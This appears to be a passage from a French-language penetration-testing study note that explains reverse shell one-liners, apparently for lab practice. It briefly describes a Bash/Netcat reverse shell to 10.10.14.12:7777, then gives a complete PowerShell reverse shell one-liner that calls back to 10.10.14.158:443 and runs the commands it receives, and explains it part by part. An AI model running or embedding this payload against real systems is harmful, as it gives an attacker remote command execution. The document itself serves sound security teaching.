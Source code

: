 Uses Netcat to send a connection to our attack host `10.10.14.12` listening on port `7777`. The output will be redirected (`>`) to /tmp/f, serving the Bash shell to our waiting Netcat listener when the reverse shell one-liner command is executed

***

### <mark style="color:red;">PowerShell One-liner Explained</mark>

#### <mark style="color:green;">**Powershell One-liner**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
{% endcode %}

<mark style="color:orange;">**Calling PowerShell**</mark>

```powershell
powershell -nop -c 
```

* Lance `powershell.exe` sans charger de profil (`-NoProfile`) et exécute le bloc de commande/script donné avec `-c` (ou `-Command`).
* La commande est appelée depuis `cmd.exe`, d’où la présence de `powershell` au début.
* Utile quand on trouve une vulnérabilité d’exécution distante (RCE) qui permet d’exécuter des instructions directement dans `cmd.exe`.

<mark style="color:orange;">**Binding A Socket**</mark>

```powershell
"$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,443);
```

* Affecte la variable `$client` à l’objet créé par `New-Object`, ici une instance de `System.Net.Sockets.TCPClient`.
* Cet objet .NET ouvre un socket TCP vers l’adresse et le port donnés (`10.10.14.158,443`).
* La connexion se fait au niveau réseau (socket) — utile pour envoyer/recevoir des flux via TCP.
* Le point-virgule (`;`) sépare les instructions pour qu’elles s’exécutent l’une après l’autre.

<mark style="color:orange;">**Setting The Command Stream**</mark>

```powershell
$stream = $client.GetStream();
```

* Affecte la variable `$stream` au résultat de `$client.GetStream()`, donc la **NetworkStream** associée au `TCPClient`.
* Cette NetworkStream représente le flux réseau bidirectionnel lié à la connexion TCP ouverte (permet de lire et d’écrire des octets).
* Elle sert d’abstraction pour envoyer/recevoir des données via le socket sans manipuler directement les primitives basses-niveaux.
* Le point-virgule (`;`) sépare les instructions pour qu’elles s’exécutent séquentiellement.
